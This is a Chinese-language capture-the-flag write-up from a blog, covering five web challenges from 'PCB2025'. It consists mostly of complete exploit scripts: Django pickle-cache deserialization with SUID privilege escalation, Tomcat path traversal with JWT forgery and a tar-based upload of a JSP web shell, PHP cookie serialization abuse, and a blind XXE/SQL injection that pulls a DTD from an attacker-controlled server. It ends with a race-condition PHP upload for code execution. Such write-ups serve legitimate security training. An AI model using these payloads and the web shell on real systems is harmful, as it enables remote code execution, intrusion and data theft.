


+++
title= "PCB2025"
slug= "pcb-2025"
description= ""
date= "2025-12-13T19:01:26+08:00"
lastmod= "2025-12-13T19:01:26+08:00"
image= ""
license= ""
categories= ["赛题"]
tags= [""]

+++

## pcb5-ezDjango

题目的缓存配置使用 `django.core.cache.backends.filebased.FileBasedCache`，目录来自环境变量 `CACHE_PATH`（缺省 `/tmp/django_cache`），缓存键缺省为 `pwn`（`app/app/settings.py:97`），可以打Django 缓存反序列化

```Bash
# app/app/settings.py
CACHES = {
    'default': {
        'BACKEND': 'django.core.cache.backends.filebased.FileBasedCache',
        'LOCATION': os.environ.get('CACHE_PATH', '/tmp/django_cache'),
    }
}
CACHE_KEY = os.environ.get('CACHE_KEY', 'pwn')
```

题目提供了“上传→复制到缓存→触发读取→查看原始字节”的完整链路：上传接口把文件写到 `/tmp`，复制接口把该文件写入缓存目录中指定文件，触发接口调用 `cache.get(key)` 读取值并返回（字节值以 Base64 编码），查看器仅用于调试原始十六进制。核心视图片段如下。

```Python
# app/cacheapp/views.py
@csrf_exempt
def upload_payload(request):
    if request.method == "POST":
        f = request.FILES.get("file", None)
        if not f:
            return json_error('No file uploaded')
        filename = request.POST.get('filename', f.name)
        if not filename.endswith('.cache'):
            return json_error('Only .cache files are allowed')
        temp_dir = '/tmp'
        filepath = os.path.join(temp_dir, filename)
        write_file_chunks(f, filepath)
        return json_success('File uploaded', filepath=filepath)

@csrf_exempt
def copy_file(request):
    if request.method == "POST":
        src = request.POST.get('src', '')
        dst = request.POST.get('dst', '')
        if not src or not dst:
            return json_error('Source and destination required')
        if not os.path.exists(src):
            return json_error('Source file not found')
        os.makedirs(os.path.dirname(dst), exist_ok=True)
        content = read_file_bytes(src)
        with open(dst, 'wb') as dest_file:
            dest_file.write(content)
        return json_success('File copied', src=src, dst=dst)

@csrf_exempt
def cache_trigger(request):
    if request.method == "POST":
        key = request.POST.get('key', '') or settings.CACHE_KEY
        val = cache.get(key, None)
        if isinstance(val, (bytes, bytearray)):
            return json_success('Triggered', value_b64=base64.b64encode(val).decode())
        return json_success('Triggered', value=str(val))
```

再suid 提权即可，最终 Exp 如下

```Python
import os
import hashlib
import pickle
import zlib
import time
import re
import base64
import subprocess
import httpx

# 目标地址
BASE_URL = 'http://192.168.18.27:25003'

class SUIDMakeExec:
    """
    构造恶意Pickle对象的类，保持原逻辑不变
    """
    def __reduce__(self):
        # 原逻辑：利用 /usr/bin/make 执行命令读取 /flag
        cmd = ['/usr/bin/make', 'SHELL=/bin/bash', '.SHELLFLAGS=-p -c', '-s', '--eval', 'x:\n\tcat /flag', 'x']
        return (subprocess.check_output, (cmd, ),)

def construct_payload():
    """
    构造带有时间戳头部的压缩Pickle Payload
    """
    header = pickle.dumps(int(time.time() + 3600), pickle.HIGHEST_PROTOCOL)
    body = zlib.compress(pickle.dumps(SUIDMakeExec(), pickle.HIGHEST_PROTOCOL))
    return header + body

def get_server_config(client):
    """
    利用SSTI漏洞获取服务器配置 (Cache目录和Key)
    """
    # 1. 获取 Cache 路径 (LOCATION)
    payload_loc = '{user._groups.model._meta.default_apps.app_configs[auth].module.settings.CACHES[default][LOCATION]}'
    try:
        resp_loc = client.post(
            "/generate/",
            data={'intro': payload_loc},
            files={'file': ('loc.txt', b'1', 'application/octet-stream')}
        )
        match_loc = re.search(r'<h3>(.*?)</h3>', resp_loc.text)
        cache_dir = match_loc.group(1).strip() if match_loc else '/tmp/django_cache'
    except Exception:
        cache_dir = '/tmp/django_cache'

    # 2. 获取 Cache Key Prefix (CACHE_KEY)
    payload_key = '{user._groups.model._meta.default_apps.app_configs[auth].module.settings.CACHE_KEY}'
    try:
        resp_key = client.post(
            "/generate/",
            data={'intro': payload_key},
            files={'file': ('key.txt', b'1', 'application/octet-stream')}
        )
        match_key = re.search(r'<h3>(.*?)</h3>', resp_key.text)
        cache_key = match_key.group(1).strip() if match_key else 'pwn'
    except Exception:
        cache_key = 'pwn'
    
    return cache_dir, cache_key

def run_exploit():
    target_url = os.environ.get('BASE_URL', BASE_URL).rstrip('/')
    
    # 使用 Client 保持会话配置，设置超时
    with httpx.Client(base_url=target_url, timeout=5.0) as client:
        print(f"[*] Target: {target_url}")

        # 1. 获取配置信息
        cache_dir, cache_key = get_server_config(client)
        print(f"[+] Cache Dir: {cache_dir}")
        print(f"[+] Cache Key: {cache_key}")

        # 2. 计算目标文件名路径
        # Django file-based cache 文件名生成规则
        cache_filename = hashlib.md5(f":1:{cache_key}".encode()).hexdigest() + '.djcache'
        destination_path = f"{cache_dir.rstrip('/')}/{cache_filename}"
        
        # 3. 构造并上传 Payload
        payload_data = construct_payload()
        try:
            # 上传文件
            print("[*] Uploading payload...")
            upload_resp = client.post(
                "/upload/",
                data={'filename': 'exploit.cache'},
                files={'file': ('exploit.cache', payload_data, 'application/octet-stream')}
            )
            uploaded_path = upload_resp.json().get('filepath')
            
            if not uploaded_path:
                print("[-] Upload failed, no filepath returned.")
                return
            print(f"[+] Uploaded to temporary path: {uploaded_path}")

            # 4. 复制文件到缓存目录 (利用 copy 接口)
            print(f"[*] Copying to {destination_path}...")
            client.post("/copy/", data={'src': uploaded_path, 'dst': destination_path})

            # 5. 触发反序列化 (Trigger)
            print("[*] Triggering deserialization...")
            trigger_resp = client.post("/cache/trigger/", data={'key': cache_key})
            
            result = trigger_resp.json()
            b64_output = result.get('value_b64')
            
            if b64_output:
                flag = base64.b64decode(b64_output).decode(errors='ignore').strip()
                print(f"\n[SUCCESS] Flag: {flag}\n")
            else:
                print("[-] No output in trigger response.")
                
        except httpx.RequestError as e:
            print(f"[-] Network error: {e}")
        except Exception as e:
            print(f"[-] Error: {e}")

if __name__ == '__main__':
    run_exploit()
```

## pcb5-ez_java

https://blog.csdn.net/AKM4180/article/details/154134981

Apache Tomcat RewriteValve目录遍历漏洞 | CVE-2025-55752 复现

```HTTP
GET /download?path=.%2fWEB-INF%2fweb.xml HTTP/1.1
Host: 192.168.18.25:25004
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Connection: keep-alive
```

然后读取 class 文件反编译，发现 jwt 密钥是明文的，直接伪造，然后上传 shell.jsp，要覆盖 web.xml，不然不解析

```XML
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                             http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">

  <display-name>JWT Login WebApp</display-name>

  <servlet>
      <servlet-name>jsp</servlet-name>
      <servlet-class>org.apache.jasper.servlet.JspServlet</servlet-class>
      <init-param>
          <param-name>fork</param-name>
          <param-value>false</param-value>
      </init-param>
      <init-param>
          <param-name>xpoweredBy</param-name>
          <param-value>false</param-value>
      </init-param>
      <load-on-startup>3</load-on-startup>
  </servlet>
  
  <servlet-mapping>
      <servlet-name>jsp</servlet-name>
      <url-pattern>*.jsp</url-pattern>
      <url-pattern>*.jspx</url-pattern>
  </servlet-mapping>
  <servlet>
    <servlet-name>LoginServlet</servlet-name>
    <servlet-class>com.ctf.LoginServlet</servlet-class>
  </servlet>
  
  <servlet>
    <servlet-name>RegisterServlet</servlet-name>
    <servlet-class>com.ctf.RegisterServlet</servlet-class>
  </servlet>
  
  <servlet>
    <servlet-name>DashboardServlet</servlet-name>
    <servlet-class>com.ctf.DashboardServlet</servlet-class>
    <multipart-config>
      <max-file-size>10485760</max-file-size>
      <max-request-size>20971520</max-request-size>
      <file-size-threshold>0</file-size-threshold>
    </multipart-config>
  </servlet>

  <servlet>
    <servlet-name>AdminDashboardServlet</servlet-name>
    <servlet-class>com.ctf.AdminDashboardServlet</servlet-class>
    <multipart-config>
      <max-file-size>10485760</max-file-size>
      <max-request-size>20971520</max-request-size>
      <file-size-threshold>0</file-size-threshold>
    </multipart-config>
  </servlet>

  <servlet>
    <servlet-name>BackUpServlet</servlet-name>
    <servlet-class>com.ctf.BackUpServlet</servlet-class>
  </servlet>

  <servlet-mapping>
    <servlet-name>LoginServlet</servlet-name>
    <url-pattern>/login</url-pattern>
  </servlet-mapping>
  
  <servlet-mapping>
    <servlet-name>RegisterServlet</servlet-name>
    <url-pattern>/register</url-pattern>
  </servlet-mapping>

  <servlet-mapping>
    <servlet-name>DashboardServlet</servlet-name>
    <url-pattern>/dashboard/*</url-pattern>
  </servlet-mapping>

  <servlet-mapping>
    <servlet-name>AdminDashboardServlet</servlet-name>
    <url-pattern>/admin/*</url-pattern>
  </servlet-mapping>
  
  <servlet-mapping>
    <servlet-name>BackUpServlet</servlet-name>
    <url-pattern>/backup/*</url-pattern>
  </servlet-mapping>

  <welcome-file-list>
    <welcome-file>index.html</welcome-file>
  </welcome-file-list>

</web-app>

```

```python
import httpx
import jwt
import datetime
import tarfile
import io
import time
import sys

TARGET_URL = "http://192.168.18.25:25004"
UPLOAD_URL = f"{TARGET_URL}/admin/upload"
SECRET_KEY = "secret-secret-secret-secret-secret-secret-secret-secret-secret-secret-secret"

payload = {
    "sub": "admin",
    "exp": datetime.datetime.now(datetime.timezone.utc) + datetime.timedelta(minutes=60)
}

admin_token = jwt.encode(payload, SECRET_KEY, algorithm="HS256")
if isinstance(admin_token, bytes):
    admin_token = admin_token.decode('utf-8')

try:
    with open("web.xml", "rb") as f:
        xml_data = f.read()
except FileNotFoundError:
    print("Error: web.xml not found")
    sys.exit(1)

target_filename = "/../WEB-INF/web.xml"

tar_buffer = io.BytesIO()
with tarfile.open(fileobj=tar_buffer, mode='w') as tar:
    info = tarfile.TarInfo(name=target_filename)
    info.size = len(xml_data)
    tar.addfile(info, io.BytesIO(xml_data))

print(f"Payload size: {len(xml_data)} bytes")
print("Uploading new web.xml...")

try:
    cookies = {"jwt": admin_token}
    files = {"file": ("config.tar", tar_buffer.getvalue(), "application/x-tar")}
    
    with httpx.Client() as client:
        r = client.post(UPLOAD_URL, cookies=cookies, files=files, timeout=10.0)
        print(f"Status: {r.status_code}")
        print(f"Response: {r.text}")
except Exception as e:
    print(f"Upload failed: {e}")

print("Waiting 10 seconds for reload...")
time.sleep(10)
print("Done.")
```

然后上传 jsp 即可

```Python
import httpx
import jwt
import datetime
import tarfile
import io
import time

TARGET_URL = "http://192.168.18.25:25004"
UPLOAD_URL = f"{TARGET_URL}/admin/upload"
SECRET_KEY = "secret-secret-secret-secret-secret-secret-secret-secret-secret-secret-secret"
SHELL_FILENAME = "/../shell.jsp"
SHELL_CONTENT = b'''<%if("023".equals(request.getParameter("pwd"))){ java.io.InputStream in =Runtime.getRuntime().exec(request.getParameter("i")).getInputStream(); int a = -1; byte[] b = new byte[2048]; out.print("<pre>"); while((a=in.read(b))!=-1){ out.println(new String(b, 0, a)); } out.print("</pre>"); }%>'''

def get_admin_token():
    payload = {
        "sub": "admin",
        "exp": datetime.datetime.now(datetime.timezone.utc) + datetime.timedelta(minutes=60)
    }
    token = jwt.encode(payload, SECRET_KEY, algorithm="HS256")
    if isinstance(token, bytes):
        token = token.decode('utf-8')
    return token

def create_malicious_tar():
    tar_buffer = io.BytesIO()
    with tarfile.open(fileobj=tar_buffer, mode='w') as tar:
        info = tarfile.TarInfo(name=SHELL_FILENAME)
        info.size = len(SHELL_CONTENT)
        tar.addfile(info, io.BytesIO(SHELL_CONTENT))
    return tar_buffer.getvalue()

def pwn():
    token = get_admin_token()
    tar_data = create_malicious_tar()
    
    with httpx.Client() as client:
        try:
            cookies = {"jwt": token}
            files = {"file": ("pwn.tar", tar_data, "application/x-tar")}
            client.post(UPLOAD_URL, cookies=cookies, files=files, timeout=10.0)
        except Exception:
            pass

        time.sleep(1)

        final_shell_url = f"{TARGET_URL}/shell.jsp"
        cmd = "env"
        params = {
            "pwd": "023",
            "i": cmd
        }
        
        try:
            r = client.get(final_shell_url, params=params, timeout=10.0)
            if r.status_code == 200:
                output = r.text.replace("<pre>", "").replace("</pre>", "").strip()
                print(output)
        except Exception:
            pass

if __name__ == "__main__":
    pwn()
```

## pcb5-ez_php

看到 cookie 是标准的反序列化，直接反序列化进管理员后台

```PHP
<?php
namespace Session;

class User {
    protected $username = "adadminmin";
}

$user = new User();
$serialized = serialize($user);
$payload = str_replace('s:10:', 's:5:', $serialized);
echo base64_encode($payload);
```

本来想传 tar getshell，但是发现找不到路径，但是文件读取直接非预期了，/ 直接截断

```HTTP
GET /dashboard.php?filename=flag.php/ HTTP/1.1
Host: 192.168.18.22:25005
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Cookie: identification=TzoxMjoiU2Vzc2lvblxVc2VyIjoxOntzOjExOiIAKgB1c2VybmFtZSI7czo1OiJhZGFkbWlubWluIjt9; user_hash=9efab2399c7c560b34de477b9aa0a465
Connection: keep-alive
```



## pcb5-X_xSe

可以用括号和 %09，



初步注入得到表结构，使用 sqlite_schema 绕过 sqlite_master，多线程提高速度。

```Python
import asyncio
import httpx
import threading
import http.server
import socketserver
import time
import string
import os
import uuid
import sys

# === 配置修改 ===
MY_IP = "10.28.0.3"
MY_PORT = 8081  # 改用 8081 防止冲突
TARGET_URL = "http://192.168.18.30:25001/api/xml-process"
INNER_URL_BASE = "http://127.0.0.1:9000/?id="

TARGET_QUERY = "SELECT group_concat(Flag) FROM Flag_storage"
CONCURRENCY_LIMIT = 30

DTD_STORAGE = {}

class ThreadedHTTPServer(socketserver.ThreadingMixIn, socketserver.TCPServer):
    pass

class DynamicDTDHandler(http.server.BaseHTTPRequestHandler):
    def log_message(self, format, *args): pass 
    
    def do_GET(self):
        filename = self.path.lstrip("/")
        if filename in DTD_STORAGE:
            self.send_response(200)
            self.send_header("Content-type", "text/xml")
            self.end_headers()
            self.wfile.write(DTD_STORAGE[filename].encode())
        else:
            self.send_response(404)
            self.end_headers()

def start_server():
    try:
        socketserver.TCPServer.allow_reuse_address = True
        server = ThreadedHTTPServer(("", MY_PORT), DynamicDTDHandler)
        print(f"[+] HTTP Server started on port {MY_PORT}")
        server.serve_forever()
    except Exception as e:
        print(f"[-] HTTP Server Error: {e}") # 打印错误而不是直接退出
        os._exit(1)

async def check_payload(client, condition):
    filename = f"{uuid.uuid4().hex[:8]}.dtd"
    sql_ready = condition.replace(" ", "/**/")
    
    full_payload = f"1'*({sql_ready})/*"
    safe_payload = full_payload.replace("'", "%27").replace("*", "%2A") \
                               .replace("(", "%28").replace(")", "%29") \
                               .replace("=", "%3D") \
                               .replace("/", "%2F").replace(">", "%3E") \
                               .replace("{", "%7B").replace("}", "%7D")
    
    DTD_STORAGE[filename] = f'<!ENTITY blind SYSTEM "{INNER_URL_BASE}{safe_payload}">'
    
    xml_data = f"""<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY % remote SYSTEM "http://{MY_IP}:{MY_PORT}/{filename}">
  %remote;
]>
<data>&blind;</data>"""

    try:
        resp = await client.post(TARGET_URL, data={'xml': xml_data})
        if filename in DTD_STORAGE: del DTD_STORAGE[filename]
        if "查询成功" in resp.text:
            return True
    except Exception:
        pass
    return False

async def guess_char_at_pos(sem, client, pos, result_list):
    async with sem:
        priority_chars = string.ascii_lowercase + string.digits + "{}-_"
        secondary_chars = string.ascii_uppercase + "@.!?,:;[]|~" + " '\"()"
        all_chars = priority_chars + secondary_chars
        
        for char in all_chars:
            char_code = ord(char)
            condition = f"unicode(substr(({TARGET_QUERY}),{pos},1))={char_code}"
            
            if await check_payload(client, condition):
                result_list[pos] = char
                return

async def main():
    print("[*] Script initializing...")
    t = threading.Thread(target=start_server, daemon=True)
    t.start()
    await asyncio.sleep(1)
    
    print(f"[*] Starting Injection: {TARGET_QUERY}")
    final_result = [""] * 101
    
    limits = httpx.Limits(max_keepalive_connections=CONCURRENCY_LIMIT, max_connections=CONCURRENCY_LIMIT)
    sem = asyncio.Semaphore(CONCURRENCY_LIMIT)
    
    async with httpx.AsyncClient(limits=limits, timeout=6.0) as client:
        tasks = []
        for i in range(1, 101):
            task = asyncio.create_task(guess_char_at_pos(sem, client, i, final_result))
            tasks.append(task)
        
        try:
            while True:
                current_str = "".join(final_result).strip()
                print(f"\r>> {current_str}", end="")
                
                if all(t.done() for t in tasks):
                    break
                if "}" in current_str:
                    pass
                await asyncio.sleep(0.5)
                
        except KeyboardInterrupt:
            print("\n[-] Stopped")
            for t in tasks: t.cancel()
            
    print(f"\n\n[SUCCESS] Result:\n{''.join(final_result)}")

if __name__ == "__main__":
    if os.name == 'nt':
        asyncio.set_event_loop_policy(asyncio.WindowsSelectorEventLoopPolicy())
    try:
        asyncio.run(main())
    except KeyboardInterrupt:
        pass
```

## pcb5-Uplssse

条件竞争命令执行即可

```Python
import asyncio
import httpx
import random
import string
import os

TARGET_IP = "192.168.18.26"
TARGET_PORT = "25002"
BASE_URL = f"http://{TARGET_IP}:{TARGET_PORT}"

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) Chrome/143.0.0.0 Safari/537.36",
    "Cookie": "user_auth=Tzo0OiJVc2VyIjo0OntzOjg6InVzZXJuYW1lIjtzOjg6ImFkbWluMTIzIjtzOjg6InBhc3N3b3JkIjtzOjg6ImFkbWluMTIzIjtzOjEwOiJpc0xvZ2dlZEluIjtiOjE7czo4OiJpc19hZG1pbiI7aToxO30%3d"
}


# PHP_CODE = b'<?php system("ls /"); ?>'
PHP_CODE = b'<?php system("tac /flag6f67186d"); ?>'
CONCURRENCY = 10
STOP_EVENT = asyncio.Event()

def generate_random_filename():
    rand_str = ''.join(random.choices(string.ascii_lowercase + string.digits, k=6))
    return f"{rand_str}.php"

async def upload_task(client, filename):
    if STOP_EVENT.is_set(): return
    try:
        url = f"{BASE_URL}/upload.php"
        files = {'file': (filename, PHP_CODE, 'application/octet-stream')}
        data = {'upload': '上传文件'}
        resp = await client.post(url, headers=headers, files=files, data=data)
        
        if resp.status_code != 200:
            print(f"[-] Upload Failed: {resp.status_code} (Check Cookie?)")
            if resp.status_code in [302, 403, 401]:
                STOP_EVENT.set()
    except Exception as e:
        print(f"[-] Upload Error: {e}")

async def access_task(client, filename):
    if STOP_EVENT.is_set(): return
    try:
        url = f"{BASE_URL}/tmp/{filename}"
        for _ in range(5):
            if STOP_EVENT.is_set(): break
            resp = await client.get(url, headers=headers)
            
            if resp.status_code == 200:
                if len(resp.text) > 0: 
                    print(f"\n[+] HIT! Status 200")
                    print(f"[+] URL: {url}")
                    print(f"[+] Content: {resp.text[:200]}")
                    if "bin" in resp.text or "flag" in resp.text:
                         STOP_EVENT.set()
                         break
            elif resp.status_code != 404:
                print(f"[-] Access Status: {resp.status_code}")
                
    except Exception as e:
        pass

async def race_worker(client, worker_id):
    while not STOP_EVENT.is_set():
        filename = generate_random_filename()
        await asyncio.gather(
            upload_task(client, filename),
            access_task(client, filename)
        )

async def main():
    print(f"[*] Debug Mode Started: {BASE_URL}")
    print("[*] Testing Upload & Execute (ls /)...")
    
    limits = httpx.Limits(max_keepalive_connections=CONCURRENCY, max_connections=CONCURRENCY)
    
    async with httpx.AsyncClient(limits=limits, timeout=4.0) as client:
        tasks = []
        for i in range(CONCURRENCY):
            task = asyncio.create_task(race_worker(client, i))
            tasks.append(task)
        
        await STOP_EVENT.wait()
        
        for t in tasks:
            t.cancel()

if __name__ == "__main__":
    if os.name == 'nt':
        asyncio.set_event_loop_policy(asyncio.WindowsSelectorEventLoopPolicy())
    try:
        asyncio.run(main())
    except KeyboardInterrupt:
        pass
```
